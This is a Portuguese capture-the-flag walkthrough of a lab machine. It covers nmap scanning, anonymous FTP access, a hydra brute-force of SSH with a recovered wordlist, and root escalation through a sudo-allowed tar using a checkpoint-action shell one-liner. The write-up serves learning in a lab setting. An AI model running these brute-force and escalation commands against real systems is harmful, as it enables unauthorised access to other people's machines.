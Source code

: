 
Usando nmap como fase inicial, estou preferindo usar a seguinte consulta por ser otimizada. 

nmap -sV -sS -T4 -A 10.10.214.22 

```
PORT   STATE SERVICE VERSION
21/tcp open  ftp     vsftpd 3.0.3
| ftp-syst: 
|   STAT: 
| FTP server status:
|      Connected to ::ffff:10.6.3.110
|      Logged in as ftp
|      TYPE: ASCII
|      No session bandwidth limit
|      Session timeout in seconds is 300
|      Control connection is plain text
|      Data connections will be plain text
|      At session startup, client count was 3
|      vsFTPd 3.0.3 - secure, fast, stable
|_End of status
| ftp-anon: Anonymous FTP login allowed (FTP code 230)
|_Can't get directory listing: TIMEOUT
22/tcp open  ssh     OpenSSH 7.2p2 Ubuntu 4ubuntu2.8 (Ubuntu Linux; protocol 2.0)
| ssh-hostkey: 
|   2048 dc:f8:df:a7:a6:00:6d:18:b0:70:2b:a5:aa:a6:14:3e (RSA)
|   256 ec:c0:f2:d9:1e:6f:48:7d:38:9a:e3:bb:08:c4:0c:c9 (ECDSA)
|_  256 a4:1a:15:a5:d4:b1:cf:8f:16:50:3a:7d:d0:d8:13:c2 (ED25519)
80/tcp open  http    Apache httpd 2.4.18 ((Ubuntu))
|_http-title: Site doesn't have a title (text/html).
|_http-server-header: Apache/2.4.18 (Ubuntu)
```

Visto que o serviço ftp permite login anonimo, será a primeira coisa a investigar...

No servidor FTP encontramos dois arquivos de texto *task.txt* e *locks.txt* como os seus próprios nomes sugerem um contém uma lista de tarefas mas o que chama a atenção é quem assina *lin* o que sugere um nome de usuário, o outro arquivo por sua fez é uma wordlist com possiveis trancas.

<img src="assets/ftp.png">

Uma boa prática aqui é dentro do servidor FTP usar comando *get* para transferir esses arquivos para sua máquina local.

Partindo para o servidor web em busca de informações adicionais, me deparo com a seguinte página.

<img src="assets/web.png">

Parece ser um dialogo entre a crew de uma animação chamada cowboy bepop, o que chama atenção é a fala de Jet ao dizer *"- Now take a look around and see if you can get that root the system"*. Isso indica uma pista para elevar privilegios ?? 

Prossigo fazendo uma inspeção no código fonte e fazendo uma varredura de diretórios e não encontro nada de muito excitante.

Uma vez que temos um possível usuário e uma lista com possíveis senhas vamos aplicar força bruta no último serviço disponível portanto dalhe

```
hydra -l lin -P locks.txt ssh://10.10.214.22 
```

e bingo, conseguimos a senha de *lin*, hora de se conectar remotamente. Uma vez conectado já conseguimos obter a flag de user.

como usuário de *lin* busco por meios de escalar privilégios por meio de caminhos como /etc/passwd comandos como id porém sem muitas resoluções, eis que lembro da fala de Jet então vamos conferir o que *lin* consegue executar como sudo usando *sudo -l*.

<img src="assets/sudo.png">

Parece que conseguimos executar tar como sudo pelo usuário de *lin*, pesquisando sobre o binário com auxilio do https://gtfobins.github.io/ 

```
If the binary is allowed to run as superuser by `sudo`, it does not drop the elevated privileges and may be used to access the file system, escalate or maintain privileged access.
```

```
sudo tar -cf /dev/null /dev/null --checkpoint=1 --checkpoint-action=exec=/bin/sh
```

Uma vez logado como root, é só capturar a flag de root.